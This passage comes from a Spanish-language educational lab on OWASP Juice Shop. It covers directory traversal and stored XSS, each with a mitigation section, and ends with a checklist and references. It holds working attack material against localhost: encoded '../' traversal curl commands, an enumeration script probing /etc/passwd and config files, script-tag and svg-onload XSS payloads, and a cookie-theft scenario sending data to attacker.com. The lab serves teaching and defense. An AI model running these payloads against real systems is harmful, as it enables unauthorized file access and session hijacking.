# En Juice Shop, el Easter Egg está en un archivo específico
# dentro del directorio ftp que no está enlazado públicamente
curl http://localhost:3000/ftp/easteregg.yml
# O probar con nombres comunes:
curl http://localhost:3000/ftp/encrypt.pyc
curl http://localhost:3000/ftp/coupons_2013.md.bak
```

**¿Por qué funciona?**

```
1. El endpoint /ftp/:file toma el parámetro file
2. Construye la ruta: path.join(__dirname, 'ftp', file)
3. Si file = "../package.json":
   path.join('/app/ftp', '../package.json')
   = '/app/package.json'  ← escapó del directorio ftp!
4. sendFile() lee y devuelve el archivo
5. El atacante accede archivos fuera del directorio previsto
```

**Con codificación URL para evadir filtros básicos**:

```bash
# Si el servidor filtra ../, probar codificación:
curl "http://localhost:3000/ftp/%2e%2e%2fpackage.json"
# %2e = .  %2f = /
# El servidor decodifica la URL antes de procesar

# Double encoding:
curl "http://localhost:3000/ftp/%252e%252e%252fpackage.json"
# %25 = % → se decodifica dos veces
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 11: Directory Traversal</div>
<svg viewBox="0 0 600 240" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">Directory Traversal — Escape de Directorio</text>
<rect x="20" y="35" width="260" height="50" rx="8" fill="#1e3a5f" stroke="#3b82f6"/>
<text x="150" y="55" text-anchor="middle" fill="#93c5fd" font-size="12" font-weight="bold">Legitimate Request</text>
<text x="30" y="75" fill="#e2e8f0" font-family="monospace" font-size="10">GET /ftp/eastere.gg → 200 OK</text>
<rect x="20" y="100" width="260" height="50" rx="8" fill="#7f1d1d" stroke="#ef4444"/>
<text x="150" y="120" text-anchor="middle" fill="#fca5a5" font-size="12" font-weight="bold">Malicious Request</text>
<text x="30" y="140" fill="#e2e8f0" font-family="monospace" font-size="10">GET /ftp/../../../etc/passwd</text>
<rect x="320" y="35" width="260" height="50" rx="8" fill="#451a03" stroke="#f59e0b"/>
<text x="450" y="55" text-anchor="middle" fill="#fcd34d" font-size="12" font-weight="bold">Path Validation</text>
<text x="450" y="72" text-anchor="middle" fill="#e2e8f0" font-size="10">Weak check → Traversal succeeds</text>
<rect x="320" y="100" width="260" height="50" rx="8" fill="#1a3a2a" stroke="#10b981"/>
<text x="450" y="120" text-anchor="middle" fill="#6ee7b7" font-size="12" font-weight="bold">Strong Check (Fixed)</text>
<text x="450" y="137" text-anchor="middle" fill="#e2e8f0" font-size="10">Resolve real path → 403 Forbidden</text>
<rect x="20" y="170" width="560" height="55" rx="8" fill="#1e293b" stroke="#334155"/>
<text x="30" y="190" fill="#94a3b8" font-size="11">Files accessible via traversal:</text>
<text x="30" y="210" fill="#e2e8f0" font-family="monospace" font-size="10">/ftp/coupons_2013.md.bak | /ftp/package.json.bak | /ftp/eastere.gg</text>
</svg>
</div>

**Script de enumeración**:

```python
#!/usr/bin/env python3
"""Directory traversal enumeration — educativo"""
import requests

BASE = "http://localhost:3000"
FILES = [
    "package.json",
    "../package.json",
    "../../package.json",
    "../../../etc/passwd",
    "easteregg.yml",
    "encrypt.pyc",
    "coupons_2013.md.bak",
    "../config/default.yml",
]

for f in FILES:
    url = f"{BASE}/ftp/{f}"
    resp = requests.get(url)
    status = resp.status_code
    if status == 200:
        print(f"✅ [{status}] {f}")
        print(f"   Content: {resp.text[:100]}...")
    else:
        print(f"❌ [{status}] {f}")
```

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ✅ SEGURO — Validación estricta de path
const path = require('path');
const fs = require('fs');

app.get('/ftp/:file', (req, res) => {
  const baseDir = path.resolve(__dirname, 'ftp');
  const requestedFile = req.params.file;

  // 1. Rechazar caracteres de traversal
  if (requestedFile.includes('..') || requestedFile.includes('/')) {
    return res.status(400).json({ error: 'Invalid filename' });
  }

  // 2. Resolver path absoluto y verificar
  const filePath = path.resolve(baseDir, requestedFile);

  if (!filePath.startsWith(baseDir + path.sep)) {
    return res.status(403).json({ error: 'Access denied' });
  }

  // 3. Verificar que el archivo existe
  if (!fs.existsSync(filePath)) {
    return res.status(404).json({ error: 'File not found' });
  }

  // 4. Servir el archivo
  res.sendFile(filePath);
});

// ✅ MEJOR — Usar lista blanca de archivos permitidos
const ALLOWED_FILES = new Set(['juicy_melon.jpg', 'banner.png']);
if (!ALLOWED_FILES.has(requestedFile)) {
  return res.status(404).json({ error: 'File not found' });
}
```

**Capas de defensa**:

| Capa | Técnica | Efectividad |
|------|---------|-------------|
| **Primaria** | Validar path resuelto dentro de base dir | ~100% |
| **Secundaria** | Rechazar `..` en input | Alta |
| **Terciaria** | Lista blanca de archivos | Muy alta |
| **Infraestructura** | Chroot / container isolation | Alta |

---

## 7. API-only XSS (Persisted)

### 🎯 Qué es

XSS Persistido (Stored XSS) a través de API ocurre cuando una aplicación **almacena** input malicioso en su base de datos y luego lo **renderiza** sin sanitización cuando otros usuarios acceden a esa información. A diferencia del reflected XSS, el payload permanece en el servidor y afecta a TODOS los usuarios que ven el contenido.

**OWASP Top 10**: A07:2021 — Cross-Site Scripting
**CWE**: CWE-79 — Improper Neutralization of Input During Web Page Generation
**MITRE ATT&CK**: T1059.007 — JavaScript

### 🔧 Cómo funciona

```
┌─────────────────────────────────────────────────────────────────┐
│                  FLUJO STORED XSS VIA API                         │
│                                                                  │
│  FASE 1: INYECCIÓN                                               │
│  ┌─────────────────────────────────────────────────────┐        │
│  │  1. Attacker envía payload via API POST:             │        │
│  │     POST /api/Feedback                               │        │
│  │     {"comment": "<script>malicious()</script>"}     │        │
│  │                                                      │        │
│  │  2. Servidor GUARDA en base de datos:                │        │
│  │     INSERT INTO Feedback (comment) VALUES            │        │
│  │       ('<script>malicious()</script>')               │        │
│  │     ← No sanitiza al guardar                         │        │
│  └─────────────────────────────────────────────────────┘        │
│                                                                  │
│  FASE 2: EJECUCIÓN                                               │
│  ┌─────────────────────────────────────────────────────┐        │
│
│  │  3. Usuario legítimo visita la página de feedback:   │        │
│  │     GET /#/privacy-security → carga feedbacks       │        │
│  │                                                      │        │
│  │  4. Servidor lee de BD y envía sin sanitizar:        │        │
│  │     SELECT comment FROM Feedback                     │        │
│  │     → "<script>malicious()</script>"                 │        │
│  │                                                      │        │
│  │  5. Browser del usuario ejecuta el script            │        │
│  └─────────────────────────────────────────────────────┘        │
└─────────────────────────────────────────────────────────────────┘
```

**Diferencia clave**: El payload se almacena permanentemente. Cada usuario que visita la página afectada ejecuta el script automáticamente, sin necesidad de hacer clic en un link especial.

### ⏰ Cuándo ocurre

- Cuando la API acepta input sin sanitizar y lo almacena
- Cuando el frontend renderiza datos de la BD sin output encoding
- Cuando no hay sanitización ni al guardar (input) ni al mostrar (output)
- En comentarios, reviews, perfiles de usuario, mensajes, feedback

### 📍 Dónde se encuentra

En Juice Shop: **Sistema de Feedback** (`/api/Feedback`) y **Customer Feedback** page

El endpoint de feedback acepta comentarios que se almacenan en la base de datos y se muestran en la página de feedback sin sanitización.

### ❓ Por qué existe

**Causa raíz**: Falta de sanitización en ambos extremos del flujo de datos:

```javascript
// ❌ VULNERABLE — Al recibir (input)
app.post('/api/Feedback', async (req, res) => {
  const feedback = await Feedback.create({
    comment: req.body.comment,  // ← Sin sanitizar
    rating: req.body.rating
  });
  res.json(feedback);
});

// ❌ VULNERABLE — Al mostrar (output)
app.get('/api/Feedback', async (req, res) => {
  const feedbacks = await Feedback.findAll();
  res.json(feedbacks);  // ← Devuelve datos crudos de la BD
});

// En el frontend, si se usa innerHTML con los datos:
// <div [innerHTML]="feedback.comment"></div> ← Ejecuta scripts
```

### 🚀 Para qué se explota

**Impacto** (más severo que reflected XSS):

| Característica | Reflected XSS | Stored XSS |
|----------------|---------------|------------|
| Persistencia | Un solo clic | Permanente |
| Víctimas | Quien haga clic | TODOS los usuarios |
| Dificultad | Requiere ingeniería social | Automático |
| Severidad | Media | **Crítica** |

**Ataques posibles**:

| Ataque | Descripción |
|--------|-------------|
| **Session hijacking masivo** | Robar cookies de todos los usuarios |
| **Defacement** | Modificar la apariencia de la página |
| **Credential harvesting** | Inyectar formularios de login falsos |
| **Malware distribution** | Redirigir a descargas maliciosas |
| **Worm propagation** | El XSS crea más XSS (auto-replicación) |

### 🔍 Cómo buscarla

**Metodología**:

```
PASO 1: Identificar endpoints que almacenan datos
  ├── POST /api/Comments, /api/Feedback, /api/Reviews
  ├── Formularios de registro (nombre, bio, etc.)
  ├── Upload de archivos (metadatos)
  └── Perfiles de usuario editables

PASO 2: Enviar payload de prueba
  ├── POST {"comment": "<script>alert(1)</script>"}
  ├── POST {"comment": ""}
  └── POST {"comment": "test<script>alert(1)</script>"}

PASO 3: Verificar almacenamiento
  ├── GET el recurso para ver si se guardó
  ├── Verificar en la base de datos si es posible
  └── El payload aparece en la respuesta?

PASO 4: Verificar ejecución
  ├── Visitar la página que muestra el contenido
  ├── ¿Se ejecuta el script? → Stored XSS confirmado
  └── ¿Aparece como texto? → Probablemente seguro
```

### 💥 Cómo explotarla

**Fundamento técnico**: El payload se envía via API POST, se almacena en SQLite sin modificación, y cuando otro usuario (o el admin) visita la página que muestra los feedbacks, el navegador renderiza el HTML inyectado y ejecuta el JavaScript.

**Explotación paso a paso**:

```bash
# Paso 1: Enviar feedback malicioso via API
curl -X POST http://localhost:3000/api/Feedback \
  -H "Content-Type: application/json" \
  -d '{
    "comment": "<script>alert(document.cookie)</script>",
    "rating": 5
  }'

# Respuesta: el feedback se guarda con ID nuevo
# {"id": 42, "comment": "<script>alert(document.cookie)</script>", ...}

# Paso 2: Verificar que se almacenó
curl http://localhost:3000/api/Feedback | python3 -m json.tool

# El comentario aparece tal cual se envió — sin sanitizar

# Paso 3: Visitar la página de feedback en el navegador
# http://localhost:3000/#/privacy-security
# o donde se muestren los feedbacks

# Paso 4: El script se ejecuta automáticamente
# Cualquier usuario que visite esa página ejecuta el JavaScript
```

**Payload avanzado — Cookie stealing persistente**:

```bash
# Este payload envía las cookies de CUALQUIER usuario que visite la página
curl -X POST http://localhost:3000/api/Feedback \
  -H "Content-Type: application/json" \
  -d '{
    "comment": "",
    "rating": 1
  }'
```

**¿Por qué funciona?**

```
1. Attacker envía POST /api/Feedback con payload XSS
2. Backend guarda el comentario TAL CUAL en SQLite:
   INSERT INTO Feedback (comment) VALUES ('<script>alert(1)</script>')
3. No hay sanitización al guardar (input validation missing)
4. Cuando cualquier usuario visita la página de feedback:
   GET /api/Feedback → devuelve todos los comentarios
5. El frontend renderiza el comentario con innerHTML o equivalente
6. El navegador parsea <script> y ejecuta el JavaScript
7. El script se ejecuta en el contexto del usuario víctima
8. Tiene acceso a sus cookies, sesión, datos personales
```

**Con Burp Suite**:

```
1. Ir a la página de feedback en Juice Shop
2. Activar Intercept en Burp
3. Enviar un feedback normal
4. En Burp, modificar el comment:
   POST /api/Feedback
   {"comment":"<svg onload=alert(document.domain)>","rating":5}
5. Forward
6. Visitar la página de feedback → script se ejecuta
```



*Figura 12: Stored XSS — Inyección via API y ejecución en panel admin*

**Verificación del impacto**:

```
┌─────────────────────────────────────────────────────┐
│  ESCENARIO DE ATAQUE REAL                             │
│                                                      │
│  1. Attacker inyecta payload de cookie stealing      │
│  2. Admin visita la página de feedback               │
│  3. Script envía cookie del admin a attacker.com     │
│  4. Attacker usa cookie para impersonar al admin     │
│  5. Attacker tiene acceso TOTAL al sistema            │
│                                                      │
│  Tiempo total: segundos                              │
│  Detección: difícil (no hay error visible)            │
│  Impacto: crítico (compromiso total)                  │
└─────────────────────────────────────────────────────┘
```

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ✅ SEGURO — Sanitizar al recibir (input validation)
const sanitizeHtml = require('sanitize-html');

app.post('/api/Feedback', async (req, res) => {
  const rawComment = req.body.comment;

  // Sanitizar: eliminar todos los tags HTML
  const cleanComment = sanitizeHtml(rawComment, {
    allowedTags: [],        // No permitir NINGÚN tag HTML
    allowedAttributes: {}   // No permitir NINGÚN atributo
  });

  const feedback = await Feedback.create({
    comment: cleanComment,
    rating: req.body.rating
  });
  res.json(feedback);
});

// ✅ SEGURO — Sanitizar al mostrar (output encoding)
// En el frontend Angular:
// <div>{{ feedback.comment }}</div>  // Auto-escapes con {{ }}
// NUNCA usar: <div [innerHTML]="feedback.comment"></div>

// ✅ MEJOR — Content Security Policy
app.use((req, res, next) => {
  res.setHeader('Content-Security-Policy',
    "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'");
  next();
});
```

**Capas de defensa**:

| Capa | Técnica | Cuándo | Efectividad |
|------|---------|--------|-------------|
| **Input** | Sanitizar al recibir (sanitize-html) | POST | ~100% |
| **Output** | Output encoding al mostrar ({{ }}) | GET | ~100% |
| **Storage** | No almacenar HTML si no es necesario | BD | Alta |
| **Browser** | Content Security Policy | Response header | Alta |
| **Framework** | Usar auto-escaping del framework | Template | Alta |

---

## Resumen de Herramientas Utilizadas

| Herramienta | Uso en este Laboratorio | Alternativa |
|-------------|------------------------|-------------|
| **Docker** | Desplegar Juice Shop | npm install, binary |
| **curl** | Peticiones HTTP manuales | Postman, HTTPie |
| **Burp Suite** | Interceptación y modificación de requests | OWASP ZAP, mitmproxy |
| **jwt.io** | Decodificar tokens JWT | `base64 -d`, Python |
| **Firefox DevTools** | Inspeccionar DOM, consola, network | Chrome DevTools |
| **Python 3** | Scripts de automatización | Bash, Node.js |
| **base64** | Codificar/decodificar payloads | Python, online tools |

---

## Mapeo de Vulnerabilidades

| # | Vulnerabilidad | OWASP Top 10 | CWE | MITRE ATT&CK | Dificultad |
|---|---------------|--------------|-----|--------------|------------|
| 1 | SQL Injection (Login Admin) | A03:2021 | CWE-89 | T1190 | ⭐⭐ |
| 2 | DOM XSS | A07:2021 | CWE-79 | T1059.007 | ⭐⭐⭐ |
| 3 | Reflected XSS | A07:2021 | CWE-79 | T1059.007 | ⭐⭐ |
| 4 | JWT Tampering (alg:none) | A02:2021 | CWE-345 | T1550.001 | ⭐⭐⭐ |
| 5 | IDOR (View Basket) | A01:2021 | CWE-639 | T1078 | ⭐⭐ |
| 6 | Directory Traversal | A01:2021 | CWE-22 | T1083 | ⭐⭐ |
| 7 | Stored XSS (API) | A07:2021 | CWE-79 | T1059.007 | ⭐⭐⭐ |

---

## Checklist de Completitud

Marca cada challenge completado en el Score Board de Juice Shop:

```
LABORATORIO OWASP JUICE SHOP — CHECKLIST
=========================================

[ ] 1. Login Admin (SQL Injection)
    ├── Payload ejecutado exitosamente
    ├── Token JWT del admin obtenido
    ├── Acceso al panel de admin verificado
    └── Fundamento técnico documentado

[ ] 2. DOM XSS
    ├── Payload ejecutado en el DOM
    ├── Alert() confirmado en consola
    ├── Fuente y sink identificados
    └── Fundamento técnico documentado

[ ] 3. Reflected XSS
    ├── Payload reflejado en la respuesta
    ├── Ejecución confirmada
    ├── Diferencia con DOM XSS entendida
    └── Fundamento técnico documentado

[ ] 4. JWT Tampering (alg:none)
    ├── Token decodificado y analizado
    ├── Header modificado a alg:none
    ├── Token manipulado aceptado por el servidor
    └── Fundamento técnico documentado

[ ] 5. IDOR — View Basket
    ├── Basket propio identificado
    ├── Acceso a basket de otro usuario confirmado
    ├── Datos de otro usuario visualizados
    └── Fundamento técnico documentado

[ ] 6. Directory Traversal (Easter Egg)
    ├── Traversal ../ confirmado
    ├── Archivo fuera del directorio ftp accedido
    ├── Easter Egg encontrado
    └── Fundamento técnico documentado

[ ] 7. API-only XSS (Persisted)
    ├── Payload enviado via API POST
    ├── Almacenado en base de datos
    ├── Ejecutado al visitar la página
    └── Fundamento técnico documentado

=========================================
COMPLETADO: __/7 challenges
SCORE: ____ / 700 puntos
=========================================
```

---

## Referencias Bibliográficas

### OWASP

- OWASP Top 10:2021. <https://owasp.org/Top10/>
- OWASP Juice Shop. <https://owasp.org/www-project-juice-shop/>
- OWASP Testing Guide v4. <https://owasp.org/www-project-web-security-testing-guide/>
- OWASP Cheat Sheet Series. <https://cheatsheetseries.owasp.org/>

### CWE (Common Weakness Enumeration)

- CWE-89: SQL Injection. <https://cwe.mitre.org/data/definitions/89.html>
- CWE-79: XSS. <https://cwe.mitre.org/data/definitions/79.html>
- CWE-345: Insufficient Verification of Data Authenticity. <https://cwe.mitre.org/data/definitions/345.html>
- CWE-639: Authorization Bypass Through User-Controlled Key. <https://cwe.mitre.org/data/definitions/639.html>
- CWE-22: Path Traversal. <https://cwe.mitre.org/data/definitions/22.html>

### MITRE ATT&CK

- T1190: Exploit Public-Facing Application. <https://attack.mitre.org/techniques/T1190/>
- T1059.007: JavaScript. <https://attack.mitre.org/techniques/T1059/007/>
- T1550.001: Alternate Authentication Material. <https://attack.mitre.org/techniques/T1550/001/>
- T1078: Valid Accounts. <https://attack.mitre.org/techniques/T1078/>
- T1083: File and Directory Discovery. <https://attack.mitre.org/techniques/T1083/>

### JWT

- RFC 7519: JSON Web Token. <https://datatracker.ietf.org/doc/html/rfc7519>
- jwt.io Debugger. <https://jwt.io/>
- "Critical vulnerabilities in JSON Web Token libraries" — Auth0. <https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

### Herramientas

- Burp Suite. <https://portswigger.net/burp>
- OWASP ZAP. <https://www.zaproxy.org/>
- SecLists (wordlists). <https://github.com/danielmiessler/SecLists>

---

## Glosario Rápido

| Término | Definición |
|---------|-----------|
| **Payload** | Código o datos maliciosos que se envían para explotar una vulnerabilidad |
| **Sink** | Punto en el código donde los datos no confiables se ejecutan o renderizan |
| **Source** | Punto de entrada de datos no confiables (URL, formulario, header) |
| **Sanitization** | Proceso de limpiar/eliminar caracteres peligrosos del input |
| **Encoding** | Transformar datos a un formato seguro (HTML entities, URL encoding) |
| **Parameterized Query** | Query SQL con placeholders que separan datos de código |
| **Ownership** | Verificación de que un recurso pertenece al usuario que lo solicita |
| **CSP** | Content Security Policy — header que restringe qué recursos puede cargar el browser |

---

*Apéndice: OWASP Juice Shop — Laboratorio de Explotación Web*
*Fundamentos de Ciberseguridad — Diego Saavedra*
*Duración: 8-10 horas | Nivel: Intermedio*
*License: CC BY-NC-SA 4.0*

::: {.callout-warning}
## RECORDATORIO FINAL

Todo lo aprendido en este laboratorio debe usarse **exclusivamente** en entornos autorizados. La explotación de vulnerabilidades en sistemas sin permiso es **ilegal** en la mayoría de jurisdicciones. Si encuentras vulnerabilidades en sistemas reales, sigue el proceso de **disclosure responsable**.
:::
